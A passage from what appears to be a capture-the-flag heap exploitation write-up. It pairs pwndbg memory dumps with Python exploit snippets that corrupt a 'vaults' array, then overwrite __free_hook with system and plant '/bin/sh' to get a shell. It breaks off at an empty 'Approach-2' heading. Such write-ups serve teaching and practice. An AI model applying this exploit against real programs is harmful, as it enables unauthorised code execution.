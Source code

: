 ```bash
pwndbg> dq mp_.sbrk_base
00000000095a8000     0000000000000000 0000000000000091
00000000095a8010     0000000000000000 0000000000020ff1
00000000095a8020     0000000000404078 0000000000404080
00000000095a8030     0000000000000000 0000000000000000
pwndbg> dq &vaults
0000000000404090     0000000000404078 00000000095a80a0
00000000004040a0     0000000000000000 0000000000000000
00000000004040b0     0000000000000000 0000000000000000
00000000004040c0     0000000000000000 0000000000000000
pwndbg> dq 0x404070
0000000000404070     00007fbbf53b4960 0000000000000000
0000000000404080     00007fbbf53b55a0 0000000000000000
0000000000404090     0000000000404078 00000000095a80a0
00000000004040a0     0000000000000000 0000000000000000
```

You can see that the first entry of `vaults` is `0x0404078` which is 0x18 bytes away from it. Effectively it allocated a chunk which is `0x18` bytes away from `vaults`. So if we try to write in first chunk which is not freed we end up writing at `0x0404078`.

```python
free(1)
edit(0,p64(0xcafebabedeadbeef))
```

```bash
pwndbg> dq 0x404070
0000000000404070     00007697e21b4960 cafebabedeadbeef
0000000000404080     00007697e21b550a 0000000000000000
0000000000404090     0000000000404078 000000002c69c0a0
00000000004040a0     0000000000000000 0000000000000000
```

### Final Stage of exploitation

#### Approach-1

Now let's try to overwrite the `vaults` first entry to `__free_hook`.

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
```

Why `__free_hook-0x8`?<br>
We dont have `/bin/sh\x00` string so lets write it at `__free_hook-0x8` and `__free_hook` with `system` address.
Effectively we are calling `system('/bin/sh\x00')`

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
edit(0,b'/bin/sh\x00'+p64(system))
```

#### Approach-2

